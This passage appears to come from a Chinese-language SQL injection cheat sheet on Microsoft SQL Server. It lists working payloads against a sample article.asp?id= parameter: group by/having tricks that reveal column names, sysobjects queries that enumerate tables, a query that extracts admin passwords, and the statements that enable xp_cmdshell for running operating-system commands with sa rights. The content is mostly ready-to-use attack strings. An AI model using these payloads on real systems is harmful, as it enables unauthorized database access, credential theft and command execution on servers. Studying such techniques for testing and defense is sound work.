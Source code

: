**Oracle的每个查询必须跟from，Oracle本身有个虚拟表dual，测试的时候可以使用。**

# 3 MSSQL

**SQLserver也有点玄学，每个版本的系统内置表不一样，测试的时候很蛋疼。并且SQLserver的使用者参差不齐，网上回答很乱，有时间自己装上各个版本再专门总结。**

## 3.1 常用信息及语句

**数据库版本：**
`select @@VERSION`

**数据库名：**
`select db_name()`

**数据库ip地址：**
`select local_net_address from sys.dm_exec_connextions where Session_id=@@spid`

**暴当前表中的列：**

```mysql
article.asp?id=6 group by admin.username having 1=1--
article.asp?id=6 group by admin.username,admin.password having 1=1--
```

**暴任意表和列：**

```mysql
and (select top 1 name from (select top N id,name from sysobjects where xtype=char(85)) T order by id desc)>1
and (select top col_name(object_id('admin'),N) from sysobjects)>1
```

**暴数据库数据：**

```mysql
and (select top 1 password from admin where id=N)>1
```

## 3.2 报错注入

**MSSQL一般使用类型转换导致的报错注入**

## 3.3 执行命令

```mysql
;declare @d int //是否支持多行
```

**如果支持多行语句执行并且是sa权限可以直接执行系统命令。**

**开启xp_cmdshell:**

```mysql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure'xp_cmdshell', 1;
RECONFIGURE;
```
